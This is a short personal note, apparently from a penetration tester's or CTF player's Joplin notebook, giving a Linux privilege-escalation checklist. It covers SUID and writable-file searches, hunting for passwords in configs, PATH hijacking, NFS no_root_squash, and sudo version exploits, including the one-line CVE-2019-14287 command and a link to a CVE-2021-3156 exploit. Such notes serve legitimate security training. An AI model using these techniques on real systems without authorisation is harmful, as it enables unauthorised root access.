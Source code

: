 Linux Guide

## Check for User privileges

> id
> 
> \# If have sudo privileges
> 
> sudo -l
> 
> \# Then check for available scripts to see if there are any custom scripts
> 
> /usr/local/bin
> 
> /bin
> 
> /usr/bin
> 
> /usr/sbin
> 
> \# If any are executable, and are SUID Root
> 
> find / -perm -u=s -type f 2>/dev/null
> 
> \# change the PATH to point to /tmp and put the malicious executable in there, so it is executed as root

## Use LinEnum / LinPeas

All are located within the ~/privesc folder

# Check if files are writeable

> find . -writable

# Check for passwords in configs / database files

> strings &lt;file&gt;

# Check for files between particular dates

> find / -newermt 2019-09-10 ! -newermt 2019-09-13 2>/dev/null

# Check for nfs

Look into /etc/exports (cat the file)

Find no\_root\_squash shares (Using LinPeas also can)

# Sudo Version

If it is 1.8.X, probable of being vulnerable

1.8.31 - https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py

1.8.27 and below - https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/

> sudo -u#-1 /bin/bash

id: 94be54afcb564ee7b6549b0b1bcac941
parent_id: 2deea0a2fd65431c90074dad6a2d5de8
created_time: 2022-05-03T07:13:58.647Z
updated_time: 2022-05-18T02:34:14.503Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-05-03T07:13:58.647Z
user_updated_time: 2022-05-18T02:34:14.503Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1